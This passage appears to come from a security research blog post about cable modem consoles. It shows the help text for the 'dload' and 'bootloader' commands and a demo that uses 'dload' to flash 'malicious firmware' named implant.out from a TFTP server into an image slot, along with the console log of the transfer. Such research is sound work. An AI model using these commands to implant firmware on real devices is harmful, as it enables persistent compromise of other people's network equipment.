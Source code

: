 EXAMPLES:
dload 11.24.4.3 vxram_sto.bin       -- Stores the image to the default image
                                       slot.
dload -i 1 11.24.4.3 vxram_sto.bin  -- Store the image to slot 1.
{% endhighlight %}

A quick demo with our malicious firmware:

{% highlight asm %}
CM/IpHal> dload -i2 192.168.100.10 implant.out


WARNING:  This will be applied to all 10 registered instances!
Do you really want to do this? (yes|no) [no] yes

Instance (0):  IP Stack1 (0x84d735bc)

Selecting IP stack 2 (statically configured).
Opening file 'implant.out' on 192.168.100.10 for reading...
[00:06:38 01/01/1970] [ConsoleThread] Tftp Client::GetReply:  (Tftp Client) Timed out on socket select!
[00:06:38 01/01/1970] [ConsoleThread] Tftp Client::Send:  (Tftp Client) Attempt #(1) Backoff (1) Exp Block #(1) Last Block #(0) Recv'd Block #(0)
[00:06:38 01/01/1970] [ConsoleThread] Tftp Client::Send:  (Tftp Client) TFTP blocksize value returned by server: 1448
Reading from TFTP server...
Sniffing the image header...
ProgramStore header was verified.  Image can be downloaded.
[00:06:38 01/01/1970] [ConsoleThread] BcmProgramStoreDeviceDriverBridge::Open:  (Program Store Device) 
Opening image number 2.
Storing data to the device...
Reading from TFTP server...
Storing data to the device...
--snip--
Tftp read < 1448 bytes, we have reached end of file.
Tftp transfer complete!
TFTP Settings:
            Stack Interface = 2
          Server Ip Address = 192.168.100.10
         Server Port Number = 69
          Total Blocks Read = 3756
           Total Bytes Read = 5438437

Storing data to the device...
NandFlashWrite warning: Request to write partial page!  offset 3b20000, length 64485
0x9907a Computing CRC32 over the image to ensure that it is valid...
NandFlashRead: Detected out-of-order block @offset 0x3b30000, tagged offset 0xffffff00, expected offset 0x530000
NandFlashRead: Failed to find replacement block!
{% endhighlight %}

And here's the documentation for the bootloader update command:

{% highlight asm %}
CM/IpHal> help bootloader

COMMAND:  bootloader

USAGE:  bootloader  [-f] IpAddress Filename{255}

DESCRIPTION:
Downloads the specified bootloader image from the TFTP server and stores it
to the bootloader region.  The image must be valid for the platform, and must
have a ProgramStore header (but no compression).

EXAMPLES:
bootloader 11.24.4.3 bootloader3360_2_1_2_c0.bin     -- Upgrades the
                                                        bootloader.